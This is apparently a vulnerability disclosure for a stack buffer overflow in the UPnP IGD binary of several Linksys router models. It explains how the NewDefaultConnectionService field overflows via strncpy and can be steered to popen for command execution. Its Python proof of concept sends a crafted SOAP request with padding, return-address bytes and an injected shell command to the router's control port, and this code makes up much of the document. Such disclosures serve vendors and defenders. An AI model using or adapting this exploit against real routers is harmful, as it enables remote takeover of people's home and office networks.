 # Linksys Vulnerability

Vendor:Linksys

Product:WRT1900ACS,EA7200,EA7450 ,EA7500



Version:

WRT1900ACS(Ver. 2.0.3.201002)

EA7200(Ver. 1.0.3.20817933.9)

EA7450(Ver. 1.0.4.208179)

EA7500(Ver. 3.0.1.207964)



Type:

Stack-based Buffer Overflow



## Vulnerability description

I found a stack overflow vulnerability in Linksys routers. This vulnerability can be used with the popen function to execute arbitrary commands.

In `IGD` binary:

In `SetDefaultConnectionService` function, `NewDefaultConnectionService` is directly passed by the attacker,When using this parameter, strncpy is used directly for copying, causing a stack overflow.



![image](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.2.png)


![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.1.png)

Function sub_189BC return with `POP {R4-R8,LR}`.And this binary file contains the popen function, and the parameters are controllable,  we can  execute any command.

![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.3.png)



## Poc

```python
import socket

ip="192.168.17.132"
port="49152"

payload='touch /tmp/flag;touch /tmp/flag;sleep 50#'
payload=payload.rjust(0x12c,' ')+'\xd0\x29\x90\xb1'*5+'\x78\x70'

junk='b'*0x1000

file_content='''
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"> <s:Body> <u:SetDefaultConnectionService xmlns:u="urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"><NewDefaultConnectionService>{}</NewDefaultConnectionService><NewConnectionService>{}</NewConnectionService></u:SetDefaultConnectionService></s:Body></s:Envelope>
'''.format(payload,junk)

content_len=len(file_content)


template = f'''POST /upnp/control/Layer3Forwarding HTTP/1.1
Host: {ip}:{port}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.4.1688139926.1746780008; _ga_BDYNZJT6JR=GS2.4.s1748393176$o15$g0$t1748393176$j60$l0$h0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;
SOAPACTION: "urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"
Content-Length: {content_len}

{file_content}
'''.replace('\n', '\r\n')
#print(template)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, int(port)))
sock.sendall(template.encode('latin-1'))

data=sock.recv(4096)
print(data)

```

